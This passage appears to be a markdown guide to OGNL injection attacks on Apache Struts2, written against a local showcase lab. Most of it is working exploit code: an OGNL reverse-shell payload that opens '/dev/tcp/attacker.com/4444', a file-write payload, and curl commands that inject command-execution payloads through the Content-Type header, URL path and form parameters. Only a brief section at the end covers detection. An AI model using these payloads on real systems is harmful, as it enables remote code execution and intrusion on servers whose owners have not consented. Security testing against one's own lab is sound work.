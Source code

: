 ### Advanced OGNL Payloads
```java
// Reverse shell
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess=#dm).(#cmd='bash -i >& /dev/tcp/attacker.com/4444 0>&1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())}

// Write file
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess=#dm).(#a=@java.nio.file.Files@write(@java.nio.file.Paths@get('/tmp/pwned.txt'),'hacked'.getBytes()))}
```

## Common Attack Vectors

### 1. Content-Type Header
```bash
curl -H "Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess=#dm).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}" \
  http://localhost:8086/struts2-showcase/
```

### 2. URL Path
```bash
# In action name
curl "http://localhost:8086/struts2-showcase/$%7B(#_='multipart/form-data')...%7D.action"

# In namespace
curl "http://localhost:8086/$%7B(#_='multipart/form-data')...%7D/someAction.action"
```

### 3. Parameter Values
```bash
curl -X POST http://localhost:8086/struts2-showcase/person/save.action \
  -d "person.name=%{(#_='multipart/form-data')...}"
```

## Detection and Testing

### Manual Detection
```bash
# Check for OGNL evaluation
curl "http://localhost:8086/struts2-showcase/?debug=%{1+1}"
# Look for "2" in response

# Check version
curl -s http://localhost:8086/struts2-showcase/ | grep -i "struts"
```
